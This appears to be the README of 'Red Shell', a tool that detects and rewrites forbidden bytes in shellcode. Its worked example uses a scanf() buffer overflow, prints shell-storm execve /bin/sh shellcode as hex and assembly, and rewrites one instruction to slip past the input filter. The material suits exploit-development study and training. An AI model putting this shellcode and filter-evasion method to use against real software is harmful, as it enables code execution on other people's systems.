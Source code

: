 # Red Shell

## Overview

Red Shell is a tool that augments the capabilities of [ShellNoob](https://github.com/reyammer/shellnoob).
Frequently, buffers have restrictions on which characters are allowed.
Red Shell helps you both detect and fix prohibited bytes in your shellcode.

You could say that ShellNoob produces the green shell, and Red Shell helps home the shellcode-based attack
and navigate around any restrictions for the input buffer, turning that green shell into a red shell.

## Example

Let's assume that we found a buffer overflow vulnerability in an x86 application with a `scanf()` call:

```c
scanf("name: %s", buffer)  // Buffer can overflow!
```

To develop an exploit for this buffer overflow, you can download some
[shellcode from shell-storm](http://shell-storm.org/shellcode/files/shellcode-827.php),
but this shellcode won't work out of the box.

### Detecting Prohibited Bytes

Let's use Red Shell to analyze this shellcode. For our blacklist of prohibited bytes,
we will use the delimiters for a string argument in `scanf()`.

```
> ./redshell.py --from-shellstorm 827 --blacklist=00,09-0d,20 --intel
--------
Hex Dump
--------
00000000: 31c0 5068 2f2f 7368 682f 6269 6e89 e350  1.Ph//shh/bin..P
00000010: 5389 e1b0 0bcd 80                        S......

--------
Assembly
--------
xor eax,eax                      # 31c0
push eax                         # 50
push 0x68732f2f                  # 682f2f7368
push 0x6e69622f                  # 682f62696e
mov ebx,esp                      # 89e3
push eax                         # 50
push ebx                         # 53
mov ecx,esp                      # 89e1
mov al,0xb                       # b00b
    0b [index 0x14]
int 0x80                         # cd80

prohibited bytes found
```

Notes:

*   Red Shell supports any input format that ShellNoob supports.
*   Red Shell also has the `--64` and `--intel` options.
*   Red Shell can use either a custom blacklist or a custom whitelist.
*   By default, Red Shell will check for nulls (00) and newlines (0a).

### Fixing Prohibited Bytes

Now that we know which instruction is bad \[`mov al, 0xb`\], let's try to find a way to replace it. Red Shell has one additional format that can let us directly test assembly instructions.

```
> ./redshell.py --from-asm-text 'mov al,0x3b; sub al,0x30' --blacklist=00,09-0d,20 --intel
--------
Hex Dump
--------
00000000: b03b 2c30                                .;,0

--------
Assembly
--------
mov al,0x3b                      # b03b
sub al,0x30                      # 2c30

no prohibited bytes found
```

Now we can patch up our shellcode with these new instructions, and we have shellcode that works for this buffer.
